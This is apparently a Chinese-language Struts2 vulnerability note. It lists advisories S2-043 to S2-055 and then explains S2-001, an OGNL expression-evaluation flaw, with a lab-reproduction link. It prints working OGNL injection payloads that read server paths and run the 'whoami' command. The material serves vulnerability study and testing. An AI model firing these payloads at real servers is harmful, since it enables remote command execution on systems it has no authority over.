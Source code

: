 - S2-043 - 使用产品中的Config Browser插件
- S2-044 - 使用URLValidator 
- S2-045时可能发生DoS攻击 - 基于Jakarta Multipart解析器执行文件上传时可能的远程执行代码。 
- S2-046 - 基于Jakarta Multipart解析器（类似于S2-045）执行文件上传时的可能RCE 
- S2-047 - 使用URLValidator时可能的DoS攻击（类似于S2-044）
- S2-048 - 可能的RCE Struts展示应用程序Struts 2.3.x系列中的Struts 1插件示例
- S2-049 - DoS攻击可用于Spring受保护的操作
- S2-050 ​​ - 使用URLValidator时的正则表达式拒绝服务（类似于S2-044＆ S2-047）
- S2-051 - 当使用Struts REST插件时，远程攻击者可能通过发送精心设计的xml请求来创建DoS攻击
- S2-052 - 使用带XStream处理程序的Struts REST插件处理XML时可能发生的远程执行代码攻击有效载荷
- S2-053 - 在Freemarker标记中使用非意图表达而不是字符串文字时可能发生的远程执行代码攻击
- S2-054 - 使用Struts REST插件时，可以使用精心制作的JSON请求执行DoS攻击
- S2- 055 - Jacks中的RCE漏洞在JSON库上

历史高危漏洞如下：`S2-001`、`S2-003`、`S2-005`、`S2-007`、`S2-008`，`S2-009`、`S2-012~S2-016`、`S2-019`、`S2-032`、`S2-033`、`S2-037`、`S2-045`、`S2-048`、`S2-052`、`S2-053`、`S2-055`。

##### S2-001

[S2-001环境复现](https://github.com/vulhub/vulhub/tree/master/struts2/s2-001)

[官方链接](https://cwiki.apache.org/confluence/display/WW/S2-001)

该漏洞其实是因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value}
进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析。


**影响版本**

	 Struts 2.0.0 - Struts 2.0.8

** 测试 **

获取 tomcat 执行路径:


	%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}

获取 Web 路径:

	%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}

命令执行

	%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}


![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-8/83653243.jpg)

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-8/44152038.jpg)


##### S2-003
